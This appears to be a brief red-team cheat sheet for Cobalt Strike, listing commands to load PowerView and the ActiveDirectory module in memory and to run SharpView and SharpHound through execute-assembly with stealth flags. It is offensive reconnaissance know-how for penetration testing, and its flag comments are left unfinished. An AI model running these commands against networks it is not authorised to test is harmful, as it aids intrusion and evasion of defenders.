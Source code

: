 # Cobalt Strike & Red Team Cheat Sheet

## Running PowerShell scripts
```
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser
```

## Running ActiveDirectory module
```
powershell import --> Select \ActiveDirectory\ActiveDirectory.psd1 file from https://github.com/samratashok/ADModule
```

## Executing .NET binaries (i.e. SharpView and SharpHound)
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpView.exe ...

# BloodHound collection with SharpHound.exe
# --Stealth will
# --excludedomaincontrollers will 
# --windowsonly will 
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.local --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\
```


# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
